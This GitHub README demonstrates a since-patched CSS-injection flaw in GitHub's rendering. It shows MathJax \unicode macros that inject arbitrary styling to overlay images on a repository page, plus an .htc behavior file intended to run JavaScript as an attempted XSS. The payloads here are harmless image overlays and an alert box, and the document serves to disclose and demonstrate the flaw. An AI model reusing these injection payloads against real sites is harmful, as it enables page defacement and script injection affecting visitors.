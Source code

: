 
# GITHUB CSS VULN TEST >_<
![image](https://github.com/tr4xnz/css-vuln/assets/171883047/f068a0ae-8df2-4bbf-9fee-ec912725a884)

The Github CSS Vuln, a vulnerability where README.md macros were exploited to edit the CSS on one's repository's page, and it'll be stored on the server.
This vulnerability's discovery was very surprising as Github is like a huge platform where major companies and developers share their projects and ideas.
Luckily the vulnerability was patched.

I still believed that an XSS attack was possible using CSS's ability to load in .htc files to run Javascript code.

## script.htc
```htc
<PUBLIC:COMPONENT TAGNAME="xss">
  <PUBLIC:ATTACH EVENT="ondocumentready" ONEVENT="main()" LITERALCONTENT="false"/>
</PUBLIC:COMPONENT>
<SCRIPT>
  function main() {
    alert("Welcome to my github repo, ik very cool :P");
  }
</SCRIPT>
```

```diff
Hello i am tr4xnz
```

```math
\ce{$\unicode[goombafont; color:red; z-index: -1; position: fixed; top: 0; left: 0; height: 100%; object-fit: cover; width: 100%; opacity: 0.7; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; left: 0; background-repeat: no-repeat; height: 300px; object-fit: cover; width: 300px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; right: 5vh; background-repeat: no-repeat; height: 280px; object-fit: cover; width: 280px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; left: 0; top: 12vh; background-repeat: no-repeat; height: 280px; object-fit: cover; width: 280px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; right: 0; top: 4vh; background-repeat: no-repeat; height: 252px; object-fit: cover; width: 340px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; right: 2vh; bottom: 0; background-repeat: no-repeat; height: 249px; object-fit: cover; width: 213px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover; behavior:url('script.htc')]{x0000}$}
```
```math
$$\ce{$&#x5C;unicode[goombafont; color:red; pointer-events: none; z-index: -10; position: fixed; top: 0; left: 0; height: 100vh; object-fit: cover; background-size: cover; width: 130vw; opacity: 0.5; background: url('https://user-images.githubusercontent.com/30528167/92789817-e4b53d80-f3b3-11ea-96a4-dad3ea09d237.png?raw=true');]{x0000}$}$$
```
